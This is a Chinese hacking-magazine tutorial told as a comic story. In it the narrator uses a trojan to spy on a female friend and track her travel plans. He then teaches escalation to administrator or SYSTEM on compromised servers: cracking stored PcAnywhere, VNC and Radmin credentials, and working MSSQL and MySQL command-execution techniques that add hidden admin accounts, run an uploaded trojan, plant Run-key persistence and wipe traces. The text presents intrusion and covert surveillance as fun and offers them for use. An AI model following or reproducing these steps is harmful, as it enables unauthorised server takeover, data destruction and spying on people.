大约过了 3.14 小时后，阿布醒了过来，喝了口水，打开 PcShare 看看肉鸡都在干什么，刚打开 PS 一会儿，一台台肉鸡就开始往上窜了。阿布疑惑的说道：“咦？燕妹妹的机器怎么也在我的 PS 里？”在急速的思考了 3 秒钟后，想起前段时间给燕妹妹做的工具包里误放了一个 PS 马进去。心想：这下可以好好的“监视”这个可爱的小丫头了，嘿嘿……

当打开 PS 的屏幕监控的时候，发现燕妹妹在电脑中开了一堆的 IE 窗口，于是阿布就调用了 PS 的窗口管理看了一下，自言自语道：“怎么全都是旅游的网站？难道这小丫头也想出去旅游？有必要‘研究’一下。”通过一个多小时的追踪，发现她好像要去泰山玩。阿布想道：嘿嘿！这下可逮到机会了，燕妹妹，我来了！

五月一日这天的晌午，阿布在泰山脚下的一个凉亭里蹲着，眼睛在人群中找寻燕妹妹的踪迹，但是过了大半个小时还不见人影。心想：她们不会早就出发了吧？就在这时，身后传来一阵笑声，经过阿布大脑把 0.5 秒的分析后，得出燕妹妹也在其中。阿布假装在看地图，这时燕妹妹也发现眼前这人有点面熟，于是在一旁偷偷的瞅着，就在阿布抬头的时候，燕妹妹惊讶道：“啊！布师傅！你怎么也在这儿啊？”阿布假装很镇定的回答道：“哦，那个什么，五一放长假，出来旅游旅游，休息休息，老被编辑们追着也不是办法，没想到在这里能够遇到你哦？”

燕妹妹瞅了瞅四周，问道：“咦？你一个人吗？”阿布叹了口气说道：“唉，宿舍那帮‘妻管炎’们都陪老婆去了，我当电灯泡度数有点大，还是自己出来走走的好。”原来如此，阿布师傅真可怜啊，燕妹妹说道：“既然这样，不如我们一块儿吧？正好缺个提东西。”可谁想到这句话正是阿布多天来蓄谋已久所期待的，但是嘴上却说道：“这个，不太方便吧？你们几个小女生……”燕妹妹听到这儿，急忙说道：“没事没事，请我们吃顿好吃的就成了。”一路说说笑笑的，阿布就陪着众美女们上了泰山……

这个时候读者朋友们可能要发怒了：“都去爬山了，我们还跟谁学习去啊？”

“不要着急，不要着急！我已经给大家写好相关的学习资料了，好好学习！回来我可是要检查的哦！”阿布在泰山脚下回头说道。

### 一、什么叫提权

提权，其全称为提升权限，也就是将低权限提升到高权限。


# 菜鸟学堂

## 2008 合订本上卷

现在的操作系统，为了安全性都引入了权限这个概念，那么到底什么是权限呢？我们举个例子来说明，比如系统管理员设置甲用户只允许访问A目录，设置乙用户只允许访问B目录，那么甲用户是不能访问B目录，而乙用户也不能访问A目录，他们更不允许更改这个设置，这就是权限。那么，倘若甲用户或乙用户利用系统中的安全漏洞或是别的方法使得自己突破了原来的限制，能够非法访问对方目录甚至是使得自己能够向管理员那样来获取对整个系统的控制，这就是提权。通常获得一个WEBSHELL或者CMDSHELL后，相当于GUEST或者USER权限，提权要做的就是将其提升到管理员权限或者SYSTEM权限，从而控制这个服务器。

对于提权来讲，需要的就是找到突破口，哪怕只有一个也足够了！一般利用的是服务器上安装的一些应用程序来进行权限提升，因为这些程序会存在不同程度的安全漏洞或者缺陷，攻陷它们，然后直取系统权限。

#### 1、PcAnyWhere 提权

PcAnyWhere是一款非常著名的远程控制软件，它可以轻松实现在本地计算机上控制远程计算机，使两地的计算机协同工作。可以使用被控端电脑上的程序或在主控端与被控端之间互传文件，也可以使用其闸道功能让多台电脑共享一台MODEM或是向网络使用者提供打进或打出的功能。看了上面的介绍是不是发觉它确实是个好东西呢，很多管理员都在他们的服务器上安装了PcAnyWhere，正等着我们去提权呢！

首先要确定服务器上是否安装有PcAnyWhere，可以通过扫描端口来判断，如果服务器开放了5631号端口的话，基本就可以断定其开放了PcAnyWhere服务。也可以通过WEBSHELL查看服务器的“C:\Program Files\Symantec”中是否有PcAnyWhere目录来确定是否安装了PcAnyWhere。

然后使用WEBSHELL的FSO等读取文件功能模块访问“C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\Hosts”目录（图1），查看后缀名字为CIF的文件，这个就是PcAnyWhere用来保存用户密码的文件。


将这个文件下载回来，就可以使用专门的PcAnywhere密码破解工具对其解密了，双击打开破解工具，点击“密码文件”栏右侧的“>>”按钮，选择刚才下载回来的后缀名为CIF的密码文件，然后点击下方的“Crack”按钮，好了，用户名和密码已经被破解出来了（图2）。

我们知道了用户名和密码，怎么样去连接呢？当然是使用PcAnyWhere的连接客户端了，这个我们可以从各大网站上下载到，打开PcAnyWhere管理器（图3），点击“添加主控端”，然后会弹出新建主控端的参数，在“连接信息”中选择“TCP/IP”（图4），在“设置”选项的“控制的网络被控端PC或者IP地址”中填写服务器的IP地址（图5），在“安全选项”中选择加密级别为“PcAnyWhere”（图6），最后点击“确定”按钮，建立完毕。


双击刚才建立的主控端图标，就会出现“PcAnyWhere正在等待连接”的界面（图7），稍等一会儿便出现了“PcAnyWhere被控端登录”的提示框，将刚才破解出来的用户名和密码填写上，点“确定”按钮（图8），再等一下就会成功登录到服务器了（图9）。


看到这个系统界面，可能小菜们又要郁闷了，对方服务器还没有登录呢，我怎么控制啊？不要急嘛，一般情况下，管理员设置的服务器登录密码和PcAnyWhere的登录密码是一致的，直接使用PcAnyWhere的登录密码登录服务器就可以了（图10）。如果服务器的登录密码和PcAnyWhere的登录密码不一致的话，那就只能等待管理员登录系统后，我们再进行控制了。

#### 2、VNC 提权

VNC (Virtual Network Computing) 是虚拟网络计算机的缩写，这是由著名的AT&T的欧洲研究实验室开发的一款软件。VNC是基于UNIX和Linux操作系统的免费的开放源码软件，其远程控制能力强大，高效实用，性能可以和Windows和MAC中的任何远程控制软件相媲美。VNC软件主要由两个部分组成：VNC server及VNC viewer，用户需要先将VNC server安装在被控端的计算机上，才能在主控端执行VNC viewer来控制被控端。VNC server与VNC viewer支持多种操作系统，比如Windows、Linux、MacOS及Unix系列系统（BSD、Solaris等），因此我们可以将VNC server及VNC viewer分别安装在不同的操作系统中来进行控制。RealVNC的优越性还在于如果操作系统的主控端计算机没有安装VNC viewer，也可以通过一般的网络浏览器（比如IE等）来控制被控端（需要Java虚拟机的支持）。


VNC最为强大的地方就它是跨平台设计，能够运行在多种操作系统中，很多管理员都比较青睐于VNC，但是它也有类似PcAnyWhere的软件设计疏忽，不过VNC的敏感信息存放在服务器的注册表中。

首先要确定服务器上是否安装了VNC，可以通过扫描端口来判断，如果服务器开放了5900号端口的话，基本上就可以断定其开放了VNC服务，也可以通过WEBSHELL查看服务器“C:\Program Files\RealVNC”目录中是否有VNC4目录，以此来确定是否安装了VNC。

然后就需要获取注册表中的敏感信息了，方法有两种：第一种方法，使用WEBSHELL直接读取注册表中其敏感信息。我们以海阳顶端木马为例，选择“一些零碎的小东西”，使用其“注册表键值读取”功能，在其中输入“HKLM\Software\RealVNC\WinVNC4\Password”（图11），然后点击“读取”按钮，就会弹出一个包含有该键值的弹出框（图12）。

# 菜鸟学堂

## 2008 合订本上卷


这些键值原本为十六进制，不过被WEBSHELL转换成了十进制，我们需要使用Windows自带的计算器再把它转回到十六进制。打开计算器，选择“查看”菜单中的“科学计算器”，当前已经为“十进制”模式了（图13），例如第一个值为22，就在计算器中输入22，然后点击“十六进制”，便将22转换成了十六进制的16（图14），以此将它们都转换完毕后得到加密后的密码为“16 1a f2 c1 f2 08 0a a3”。


第二种方法是使用WEBSHELL中的命令行操作将VNC注册表信息导出来。我们仍然以海阳顶端木马为例，选择“WScript.Shell 命令行操作”这个模块，在命令中输入“regedit /e HKEY_LOCAL_MACHINE\Software\RealVNC\WinVNC4\ d:\1.reg”（图15），它的意思就是将服务器注册表中的“HKEY_LOCAL_MACHINE\Software\RealVNC\WinVNC4\”分支导出到D盘下保存为1.reg文件，执行后没有内容返回，然后我们再利用WEBSHELL的FSO功能模块来查看D盘中是否有1.reg这个文件，不能直接使用WEBSHELL进行查看，需要将其下载回本地使用记事本打开（图16），其中Password就是加密过的密码了，同样和上边我们使用计算器计算出来的一样吧。


```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4]
"Password"=hex:16,1a,f2,c1,f2,08,0a,a3
"SecurityTypes"="VncAuth"
"PasswordViewOnly"=dword:00000000
"DebugLevel"=dword:00000000
"DebugMode"=dword:00000000
"PortNumber"=dword:0000170c
"IdleTimeout"=dword:00000000
"HTTPPortNumber"=dword:000016a8
"AllowLoopback"=dword:00000001
"AcceptKeyEvents"=dword:00000001
"AcceptPointerEvents"=dword:00000001
"AcceptCutText"=dword:00000001
"SendCutText"=dword:00000001
"DisableLocalInputs"=dword:00000000
"DisconnectClients"=dword:00000001
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectAction"=dword:00000000
"RemoveWallpaper"=dword:00000000
"RemovePattern"=dword:00000000
"DisableEffects"=dword:00000000
"PollFullScreen"=dword:00000000
"PollForeground"=dword:00000001
"PollUnderCursor"=dword:00000000
"PollConsoleWindows"=dword:00000001
"CompareFB"=dword:00000001
```


剩下的工作就是解密了，打开解密工具VNCrackX4，这个工具需要在CMD下执行，执行命令为x4.exe -W，然后依次输入得到的一串十六进制的键值，输完一小段就回车一次，当输入完最后一部分后，工具自动给出了解密后的密码（图17）。


知道密码后，我们就可以使用VNC连接器来连接服务器了，连接器也可以从各大网站下载得到，安装好后，运行“VNC Viewer”，在“服务器”栏输入服务器的IP地址（图18），点击“确定”按钮，在接下来出现的密码验证窗口中输入解密得到的密码（图19），点击“确定”按钮，好了，已经成功进入服务器的桌面了（图20），而且管理员还替我们登录好了，真是天助我也！

# 菜鸟学堂

然后就需要获得注册表中的敏感信息了，方法有两种：第一种方法，使用WEBSHELL直接读取注册表中的敏感信息。以海阳顶端木马为例，打开“一些零碎的小东西”这个模块，使用其“注册表键值读取”功能，在其中输入“HKLM\SYSTEM\RAdmin\v2.0\Server\Parameters”（图21），然后点击“读取”按钮，就会弹出一个包含有该键值的弹出框（图22）。


图17


图18


图19


图20

#### 3、Radmin 提权

Radmin是一款屡获殊荣的远程控制软件，在远程电脑上工作就如同坐在那台电脑前一样。它可以从多个地点访问同一台电脑，并使用高级文件传输、远程关机、Telnet以及其它许多实用的功能。而且不管是服务端还是客户端都是小巧玲珑，并且以服务方式启动。以前，我就经常在服务器上偷偷的安装Radmin来玩，因为它的隐蔽性还是很不错的。

但是前段时间高手们研究出了可以不使用明文密码来连接服务端的方法，Radmin的连接密码和开放端口是保存在注册表中，连接密码是以HASH值的方式存放的，后来大虾们开发出了直接使用HASH连接服务端的Radmin_HASH版本。

首先来确定服务器上是否安装了Radmin，同样可以使用扫描端口来判断，如果服务器开放了4899号端口的话，基本就可以断定其开放了Radmin服务，也可以通过WEBSHELL查看服务器进程中是否有r_server.exe来确定是否安装了Radmin。


图21


图22


图23

同样，这些键值原本为十六进制，被WEBSHELL转换成了十进制，我们打开计算器，选择“查看”菜单中的“科学计算器”，当前已经为“十进制”模式，例如第一个值为202，就在计算器中输入202，然后点击“十六进制”，便将202转换成了十六进制的CA，依次将它们都转换完毕后得到加密过后的密码为“ca a6 d6 2a c9 b1 d8 9b 4c e0 be f9 e5 13 4e ec”。

# 菜鸟学堂

## 2008 合订本上卷

第二种方法是使用WEBSHELL中的命令行操作将Radmin注册表信息导出来，仍然以海阳顶端木马为例，打开“WScript.Shell 命令行操作”这个模块，在命令中输入“regedit /e HKLM\SYSTEM\RAdmin\v2.0\Server\Parameters\ d:\1.reg”(图23)，它的意思是将服务器注册表中的“HKLM\SYSTEM\RAdmin\v2.0\Server\Parameters\”分支导出到D盘下保存为1.reg文件，命令执行后没有信息返回，我们再利用WEBSHELL的FSO功能模块来查看D盘中是否有1.reg这个文件。不能直接使用WEBSHELL进行查看，需要将其下载回本地使用记事本打开（图24），其中Parameter就是HASH值，和上边我们使用计算器计算出来的一样吧。


获得HASH后，直接打开Radmin_HASH版本的连接器（图25），点击图中标注的按钮来创建一个新连接（图26）。


在其中输入服务器的IP地址和Radmin的服务端口，点击“确定”按钮保存。这时在主控制面板中就出现了刚才创建的连接，双击它就会弹出密码验证窗口（图27），直接输入刚才破解出来的32位小写的HASH即可，验证完毕后会自动进入控制界面（图28）。

还可以在标题栏上点击右键选择“应用连接模式”来选择你需要的管理方式，例如选择“文件管理”菜单，即可进入文件管理模块（图29）。如果没有系统登录密码的话，可以使用“远程TELNET”模块自己新建一个系统管理员账号即可，是不是很方便呢？


这次我们讲解的都是针对远程控制类软件的提权，利用的都是软件的漏洞或者疏忽。其实远不止这三种，还有其它的软件，比如FlashFXP提权等等。大家可以摸索着自己测试一下，提权讲求的是思路，不是方法，要活学活用，才能用的好。

> （文章中涉及到的工具Symantec Pcanywhere PassWord Crack、PcAnyWhere连接客户端、VNCrackX4、VNC连接器、Radmin_HASH版本的连接器、海阳顶端木马，已经收录在光盘中）

## 菜鸟师修行
跟我学服务器提权(中)

周五杰（阿布）

自从五一旅游回来，阿布就没有再见过燕妹妹，都快一个星期了，可燕妹妹的QQ还没有亮过呢，阿布每天只好在163、263、363……等网站转啊转。这天，燕妹妹的QQ终于亮了起来，没错，是她的头像。阿布连忙问道：“MM啊，这么多天也不上线，在忙什么呢？都快想死我了。”燕妹妹笑嘻嘻的回答道：“o(∩_∩)o……没办法，出去旅游一下就把握累的半死，休息了一个星期才缓过来，赶紧来向你报到了。”阿布心中叹息道，女人啊，女人，这就是女人啊！

阿布清了清嗓子，继续说道：“这样说来倒还算是有点良心，好了，我们开始讲课，经过上次的提权学习，应该拿下不少服务器了吧……”燕妹妹突然大声喝道：“哇！”阿布下意识的喊道：“啊！地震了……大家快跑啊……”只听跳溜一声，便钻到了桌子底下。

燕妹妹瞪大眼睛看着桌子下的阿布说道：“你怎么钻那里去了？”阿布看了看四周，探出顶着抹布的脑袋，说道：“咦？不是地震啊！吓死我了，最近都被四川的地震搞怕了。”燕妹妹点头说道：“原来是这样呀，我还以为你撞到头了呢，我是说上次你没讲什么提权啊！”阿布楞了一下，想了想说道：“哦！原来是这事啊，五一不是和你一起出去旅游了嘛，又不能耽误读者们看书学习，我就准备了一期教程留给大家，本来打算旅游回来传给你们的，可是你不上线，也联系不到你，就给耽误了。”燕妹妹说道：“那我晓得了，布哥哥想的真周到。”阿布又说道：“那我先把上期的教程传给你一份，你先大致了解一下，我先去趟WC，呆会儿回来再接着给你讲。”

上次，我们主要介绍了如何利用PcAnyWhere、VNC、Radmin来提权，经过上次的学习，大家都拿下不少服务器了吧。对于入侵来讲，我们在得到WebShell后还可以尝试得到连接数据库的帐号和密码信息，这堂课我们就来学习一下在得到了数据库的帐号和密码后如何进行提权。

### 一、MSSQL + NBSI提权

NBSI是我们曾经讲过的一个注入工具，那么NBSI跟MSSQL又有什么关系呢？阿布问道：“在进行网站注入的时候你有没有遇见过类似下边的这种情况（图1）？”

燕妹妹想了一下，然后回答道：“嗯……是的哦，数据库用户权限有很多是SA的，不过不知道怎么利用。”阿布点了点头，说道：“下边要好好听课了，我们今天讲讲碰到这种情况要如何处理，拿下服务器！”燕妹妹顿时惊讶道：“居然能够拿下服务器呀……”

在注入的时候碰上SA用户权限基本上就可以确定这台服务器是你的了，因为SA是MSSQL的最高权限了，它可以调用其自身的很多扩展存储过程来执行命令或其它针对服务器的操作。点击NBSI最下方一栏中的“NBCommander”，进入执行命令的功能模块（图2），在“注入地址”栏填写刚才检测到存在注入的地址，选择好注入点是属于“数字型”还是“字符或搜索型”，再在“命令文本”栏填入想执行的CMD命令，比如想查看当前服务器中的用户列表，那么就填入“net user”，然后点“执行”按钮，稍等一会儿就可以在“回显结果”框中看到命令执行后的返回信息了。

在“命令类型”中有三种类型：CmdShell是以xp_cmdshell扩展存储过程执行命令的；OACreat是以sp_OACREATE和sp_OAMethod扩展存储过程执行命令的；而JOB是以SQLSERVERAGENT的JOB来执行命令的。


如果点击“执行”后，NBSI没有返回任何数据，还可以使用“恢复CMD”来让NBSI帮助我们自动恢复CMDSHELL。我们执行“net use casper 1314521 /add”和“net localgroup administrators casper /add”这两条命令来添加一个管理员帐号，接着再


# 菜鸟学堂

执行“net start”，查看对方服务器是否开放了 Terminal Services，也就是终端 3389 服务，一般情况下服务器都会开放的（图 3）。再执行“netstat -an”，查看当前服务器所有的网络连接信息，主要是用来查看和判断终端服务开放的端口，可以很清楚的看到终端服务的端口为 3389（图 4）。


这时我们就可以使用远程桌面进行连接了，填入刚才添加的管理员帐号和密码，就可以远程登录进入对方的服务器“逛街”了，一台 3389 肉鸡就这样诞生了（图 5）。


过程非常简单吧，其实提权并不是想象中的那么难，当然还需要那么一点点的运气。燕妹妹疑惑的问道：“在这种提权方式中为什么要使用 NBSI 呢？”阿布喝了一口水，慢慢回答道：“这里面当然是有原因的，因为 NBSI 在执行 CMD 命令方面是很强悍的，比其它的注入工具都要好用。但也不是绝对的，如果遇到特别古怪的情况，就多用几个注入工具试试，不管黑猫白猫，能抓到老鼠的就是好猫！”

### 二、MSSQL + WEBSHELL 提权

WEBSHELL 是个好东西，在得到 WEBSHELL 后记得去查看一下网站程序连接数据库的文件，通常为 conn.asp。如果网站程序是以 SA 用户连接数据库的话，那可要恭喜了，你又多了一台服务器肉鸡。而且这种方法比前面介绍的 NBSI 方法更稳定，因为它直接把命令送往 MSSQL 数据库，然后就等着 MSSQL 执行了。

在获得 SA 用户的密码后，只需要上传一个 SQLRootKit，然后在浏览器中访问它，可以看到程序的下方还自带了我们以前所介绍过的小马，可以写一些代码到文件中以实现文件的上传，方便了一些用户的使用（图 6）。


程序可以自定义 SQL 用户名、SQL 密码、SQL 服务器地址和 SQL 端口等信息，把这些信息填写完整后，点击“login”按钮，就可以进入控制界面（图 7）。


程序会自动判断服务器所使用的系统版本（Windows 2003 系统）和当前登录帐号所拥有的 SQLServer 权限（恭喜！SQLServer 最高权限）。我们接下来点击“检测组件”（图 8），就可以检测 XP_cmdshell、sp_oacreate、xp_regwrite、xp_servicecontrol 等扩展存储过程是否存在，这些东西都关乎着我们是否能够成功执行 CMD 命令。如果有的组件不存在的话，我们可以使用程序自带的“恢复组件”功能，就可以恢复一些扩展存储过程了，恢复成功后会提示“恭喜！组件齐全”（图9）。

当确认万无一失后，就可以执行CMD命令了，在“系统命令”栏填写想要执行的CMD命令，比如“net user”，然后在“请选择运行程序的组件”下拉列表中选择使用的扩展存储过程，最常用的就数“XP_cmdshell”了，最后点击“执行”按钮（图10），便得到了“net user”的回显信息（图11）。


图 9


图 10


图 11

程序还可以以登录用户的身份来执行SQL命令，比如删除哪个数据表（drop table news），然后再点“执行”按钮，一个数据表就轻松删除了。

### 三、MSSQL + SQL综合利用工具提权

其实得到了SA的密码，完全可以不使用WEBSHELL等借助WEB的方式来进行操作，因为那样会在IIS中产生不必要的日志信息。SQL综合利用工具就是一个直接与数据库进行通信的工具，特别是在局域网中表现的非常出色，它还能够直接上传文件（通过数据库），不过最好不要用它上传体积较大的文件，建议文件大小尽量控制在300K以内吧。

打开SQL综合利用工具，在“服务器名称/IP”栏输入服务器的主机名或者IP地址，在“用户名”栏输入SA，在“密码”栏输入SA的密码，在“数据库名称”中输入SA用户可以访问的数据库，一般设置为Master即可（图12），最后点击“确定”，就可以进行连接了。


图 12

连接成功后会在程序的左下侧提示连接成功，并且菜单栏中的“利用目录”也变成可以选择的了（图13）。这个工具可以实现的功能有执行DOS命令、上传文件、执行数据库命令、增加SQL帐号、注册表管理、执行凯博宏等功能。


图 13

选择“上传文件”，就进入上传文件功能，在“要上传的文件”栏选择本机中要上传的文件，在“上传文件后保存在”栏输入保存在服务器上的地址，然后点击“开始上传”，成功后会在下侧显示上传成功（图14）。

“执行DOS命令”主要是用于命令执行的功能，它不但可以执行单个的CMD命令，还可以执行多条或者批处理命令。先输入一个“dir c:\”命令来确认一下刚才的文件是否成功上传，然后再输入一个启动命令“start c:\mm.exe”将刚才上传的木马运行（图15）。这时候打开PcShare就可以看到一台肉机已经向我们打招呼了（图16）。

# 菜鸟学堂

2008 合订本上卷


选择“执行数据库命令”，进入数据库命令执行功能，它可以以我们登录的帐号为权限来执行SQL命令，比如查看数据表、修改数据等（图17）。选择“添加SQL帐号”，进入帐号添加功能，因为原先登录的帐号SA是SYSADMIN角色，所以它可以在SQLSERVER里做任何事情，包括添加其它帐号等。输入新的用户名、密码、确认密码，然后选择好角色就可以添加新用户了（图18）。


选择“SQL远程注册表编辑器”来进入注册表编辑功能，这个功能可以很轻松的利用xp_regwrite和xp_regread两个扩展存储过程实现对服务器注册表的编辑操作（图19）。


阿布望着燕妹妹说道：“一个小小的SQL综合利用工具很强悍吧？”燕妹妹好半天才回过神来，“哇，布哥，这个工具真的太强了，简直是所向披靡嘛！”

#### 小知识：什么是服务器角色？

服务器角色是指根据SQL Server的管理任务以及这些任务相对的重要性等级来把具有SQL Server管理职能的用户划分成不同的用户组，每一组所具有管理SQL Server的权限已被预定义。服务器角色适用在服务器范围内，并且其权限不能被修改。例如，具有sysadmin角色的用户在SQL Server中可以执行任何管理性的工作，任何企图对其权限进行修改的操作都将会失败。

### 四、MSSQL + 查询分析器提权

SQL查询分析器是一个图形化的数据库编程接口，是SQL server客户端的重要组成部分。查询分析器以自由的文本格式编辑SQL代码，对语法中的保留字提供彩色显示以便方便开发人员的使用。其实前面所讲的提权方法，最终实现的都是执行SQL语句，而查询分析器就是最原始的武器。

打开 SQL 查询分析器，程序会自动询问你是否连接 SQL Server。填入服务器的 IP 地址以及连接使用的验证方式（图 20）。SQL Server 有两种连接方式，一种是 Windows 身份验证，如果你在本机调试的话，可以选择这种方式直接连接到 SQL Server；另一种是 SQL Server 身份验证，需要使用连接的用户和密码，这种方式既可以使用在本机调试，又可以使用在远程连接上。


连接成功后，程序会弹出一个查询窗口，可以看到标题栏写着“192.168.10.250.master.sa”，它的意思就是说我们当前使用 SA 这个用户连接到 192.168.10.250 这个 SQL 服务器的 master 数据库上。当然也是可以自定义数据库的，在工具栏上有数据库的选择列表。在上方的空白框中输入的 SQL 语句，然后单击工具栏中的蓝色“小对勾”就可以进行查询了。

#### 1、利用 XP_CMDSHELL 执行系统命令

xp_cmdshell 是 SQL Server 自带的系统命令存储过程，默认情况下只有 SYSADMIN 服务器角色才能执行。由于我们使用了 SA 进行连接，也就不存在权限的限制了。在查询窗口中输入 exec master..xp_cmdshell 'net user casper 1314521 /add' 就可以执行 net user casper 1314521 /add 这个系统命令添加一个用户了（图 21）。在执行完毕后，还会返回查询结果“命令成功完成”。我们再使用这个功能把添加的帐号提升到管理员组中，就可以连接 3389 了。


如果返回的是找不到 xp_cmdshell 这个扩展存储过程的话，我们可以尝试恢复这个过程，在查询窗口中输入 Exec sp_addextendedproc xp_cmdshell ,@dllname ='xplog70.dll'（图 22），这条语句使用了 sp_addextendedproc 这个扩展存储过程向 SQL Server 中添加一个名字为 xp_cmdshell、DLL 文件为 xplog70.dll 的扩展存储过程。恢复了这个扩展存储过程后，就可以使用 xp_cmdshell 来执行系统命令了。


#### 2、利用 SP_OACreate 和 SP_OAMETHOD 执行系统命令

SQL SERVER 提供了一些函数访问 OLE 对象，分别是 sp_OACREATE 和 sp_OAMethod，可以利用它们调用 OLE 控件，间接获取一个 shell。使用 SP_OACreate 调用对象 wscript.shell 赋给变量 @shell，然后使用 SP_OAMETHOD 调用 @shell 的属性 run 来执行命令。所以 wscript.shell 这个组件是必须存在的，如果管理员把这个组件删除的话，那就不能执行成功了。
在查询窗口中输入如下的查询语句（图 23）：

```
DECLARE @shell INT //建立一个@shell实体
EXEC SP_OACreate 'wscript.shell',@shell out //创建OLE对象的实例
EXEC SP_OAMETHOD @shell,'run',null, 'net user casper 1314521 /add' //调用@shell这个实例
```

通过查询后，系统便会执行 net user casper 1314521 /add 这个命令，并且返回了正常的结果。如果管理员把 xp_cmdshell 扩展存储命令以及 xplog70.dll 文件都删除的话，可以使用这个方法执行系统命令。


#### 3、利用 Access 的沙盒模式执行系统命令

在默认情况下，Jet 数据库不支持 select shell("net user casper 1314521 /add")这样的 SQL 语句，但是开启了 JET 引擎的沙盒模式后就可以执行命令。先利用 xp_regwrite 存储过程改写注册表，然后利用 OpenRowSet 访问一个系统本身自带的 ACCESS 数据库文件，再执行运行命令的 SQL 语句。也就是说 xp_regwrite 这个存储过程必须存在，不然的话我们开启不了 Access 的沙盒模式。

在查询窗口输入 EXEC master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SoftWare\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0这条语句进行查询，不出意外的话会看到如图 24 所示的结果，这表明 Access 的沙盒模式已经开启了。然后在查询窗口中输入 Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user casper 1314521 /add")');这条语句进行查询，“c:\windows\system32\ias\ias.mdb”是系统中一个存在的 MDB 数据库，没有什么其它意义，不出意外的话会看到如图 25 所示的结果，这表明命令已经执行成功了。

这种方法虽然很麻烦，但也有可能是绝处逢生的一个关键棋子，而且这个方法还可以作为后门来使用，只需要开启 Access 的沙盒模式，以后使用一个查询语句便可以随意执行任何命令，而且是以 SYSTEM 权限执行的。


图 24


图 25

##### 小知识：什么是沙盒模式？

简单的话，沙盒模式是一种安全功能，在沙盒模式下，Access 只对控件和字段属性中的安全且不含恶意代码的表达式求值。如果表达式不使用可能以某种方式损坏数据的函数或属性，则可认为它是安全的。例如，诸如 Kill 和 Shell 之类的函数可能被用来损坏计算机上的数据和文件，因此它们被视为不安全的。当 Access 以沙盒模式运行时，调用这些函数的表达式将会产生错误消息。

#### 4、利用 SQL 代理执行系统命令

利用 SQL 代理执行系统命令的前提是必须开启 SQL 代理服务，默认情况下这个服务是关闭的。我们可以先利用 xp_servicecontrol 开启 SQLSERVERAGENT，然后建立一个 SQL 计划任务，再马上运行这个任务。所以 xp_servicecontrol 这个存储过程必须存在，要不然我们启动不了 SQLSERVERAGENT 这个服务。

首先在查询窗口中输入 exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT' 进行查询，它的意思是使用 xp_servicecontrol 这个存储过程将 SQLSERVERAGENT 这个服务启动起来，执行成功后，返回的结果如图 26 所示。


图 26

再在查询窗口中输入如下的查询语句：

```
use msdb exec sp_delete_job null,'x' //进入MSDB数据库，
删除名为X的作业，防止出错
exec sp_add_job 'x' //建立一个名为X的作业
exec sp_add_jobstep Null,'x',Null,'1','CMDEXEC','cmd /c
net user casper 1314521 /add' //添加一个操作到名为X的作业中
exec sp_add_jobserver Null,'x',@@servername exec
sp_start_job 'x' //启动这个名为X的作业
```

通过查询后，系统便会启动名为 X 的这个作业，然后执行“net user casper 1314521 /add”这个命令，并且返回正常的结果，如图 27。这个方法其实也很依赖 SQL Server 的扩展存储过程的，比如 sp_delete、add_job、jobstep、sp_add_jobserver、sp_start_job 等。


图 27

#### 5、利用写注册表项执行系统命令

事实上，我们使用的是 xp_regwrite 这个扩展存储过程来写注册表项，直接把要执行的命令写入RUN启动项，当服务器重新启动的时候就会自动执行了。

在查询窗口中输入EXEC master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\currentversion\run','shell','REG_SZ','C:\windows\system32\cmd.exe /c net user casper 1314521 /add'这条查询语句，执行成功后返回如图28所示的结果。


图28

此时在服务器的注册表中已经添加了一条命令上去（图29），接下来就是等待服务器重启了。如果是多条命令的话，可以添加多次命令到注册表的启动项。


图29

燕妹妹擦了一遍又一遍的汗，说道：“布哥哥，你不是故意整我的吧？弄这么多的命令出来，我怎么能记得下嘛！而且这么多的点点杠杠，我眼睛都看晕了。”阿布叹了口气，回答道：“燕MM你多虑了，其实……其实这些东西是不用记的，只要知道有这个方法，到了真正用的时候能够想起来，到google、百度上找到就行了！”

阿布给燕妹妹传了一个文本过去，说道：“我已经给你整理成了一个TXT文本，保存在电脑里以后备用就成了。”燕妹妹操着鼻涕，谢道：“布哥哥，你真好！”阿布当场乐晕了。

### 五、MYSQL + UDF 自定义函数提权

现在越来越多的PHP网站出现在网络上，我们在平时的人侵中获得过不少PHP环境的WebShell吧，当然还有网站程序连接MYSQL数据库的帐号和密码，如果这个帐号拥有对mysql的insert和delete权限以创建和抛弃函数（MYSQL文档原话），那么我们就可以利用UDF自定义函数执行系统命令，而且还是系统SYSTEM权限。对了，必须是Windows2000/XP/2003系统才行哦！

首先使用获得的WebShell将所要使用的PHP文件上传到服务器上，然后在浏览器中打开它，分别输入HOST（主机IP地址）、MYSQL帐号、密码、数据库名（获得的帐号所能访问的数据库名），点击“提交”后进行登录（图30）。


图30

登录成功后需要将UDF.DLL文件释放出来，对于MYSQL5.0以上版本，必须将DLL导出到目标主机的系统目录（windows或system32），否则在下一步的操作中你会看到“No paths allowed for shared library”错误（图31）。


图31

那么要如何查看MYSQL的版本呢？我们只需要使用Webshell中的PHPINFO功能即可（图32）。


图32

我测试的MYSQL的版本为5.0.37，所以需要将它释放到系统目录中，在“DLL导出路径”中填入“C:\Windows\udf.dll”，然后点击“导出到此目录”，如果成功的话就会看到如图


# 菜鸟学堂

2008 合订本上卷

33 所示的提示。

导出成功后就得创建自定义函数了，在SQL 命令栏填入 `Create Function cmshell returns string soname 'udf.dll'`，点击“执行”后就可以创建了（图34），由于我将 UDF.DLL 文件释放到了系统目录，所以只需要给出 DLL 的文件名即可。


图 33


图 34

现在就可以使用 cmshell 这个自定义函数来执行系统命令了，只需要在SQL 命令栏填入 `select cmshell('net user')` 即可（图35），就跟在海阳木马里面执行 CMD 一样。最后提权完毕还要记得擦屁股，最好将这个自定义的函数删除掉，只需要在SQL 命令栏填入 `drop function cmshell` 即可（图36）。


图 35


图 36

阿布拍了拍身上的灰尘，对燕妹妹说道：“怎么样？很棒很强大吧？”燕妹妹打趣道：“不错，不错！味道好极了，用我们美国话叫 Very Good！”阿布头上不由得爆出了一个豆大的汗滴出来。

（文章中涉及到的 NBSI2.5、sqlinc.aps、SQL-Tools、SQL 查询分析器、su.php 已经收录在光盘中）

